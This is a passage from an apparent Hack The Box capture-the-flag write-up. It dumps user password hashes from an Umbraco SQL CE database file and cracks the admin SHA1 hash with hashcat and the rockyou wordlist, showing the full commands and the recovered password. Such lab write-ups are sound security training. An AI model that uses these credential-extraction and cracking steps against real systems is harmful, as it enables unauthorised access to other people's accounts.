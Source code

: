 

    root@kali:/mnt/App_Data# strings Umbraco.sdf | head
    Administratoradmindefaulten-US
    Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
    Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
    adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
    adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
    smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
    ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
    ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
    @{pv
    qpkaj



I can guess that there's an admin account, with email admin@htb.local,
and password hash `b8be16afba8c314ad33d812f22a04991b90e2aaa` that is a
SHA1. There's another user, smith, who has a password which is stored
using HMACSHA256.

## Shell as IIS

### Access Umbraco Admin Panel

#### Crack Admin Hash

I dropped the admin SHA1 into a file, and ran `hashcat` to crack it:



    root@kali# cat admin.sha1 
    b8be16afba8c314ad33d812f22a04991b90e2aaa

    root@kali# hashcat -m 100 admin.sha1 /usr/share/wordlists/rockyou.txt --force                                                                                            hashcat (v5.1.0) starting...                                                                         
    ...[snip]...
    b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese                                              
                                                                                                         
    Session..........: hashcat
    Status...........: Cracked
    Hash.Type........: SHA1
    Hash.Target......: b8be16afba8c314ad33d812f22a04991b90e2aaa                                          
    Time.Started.....: Sat Mar 21 20:00:46 2020 (4 secs)                                                 
    Time.Estimated...: Sat Mar 21 20:00:50 2020 (0 secs)                                                 
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)                                           
    Guess.Queue......: 1/1 (100.00%)                  
    Speed.#1.........:  2573.2 kH/s (0.38ms) @ Accel:1024 Loops:1 Thr:1 Vec:8                            
    Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts                                        
    Progress.........: 9824256/14344385 (68.49%)      
    Rejected.........: 0/9824256 (0.00%)                                                                 
    Restore.Point....: 9821184/14344385 (68.47%)                                                                                                                                                              
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1                            
    Candidates.#1....: badco192 -> bacninh_kc         
                                                                                                         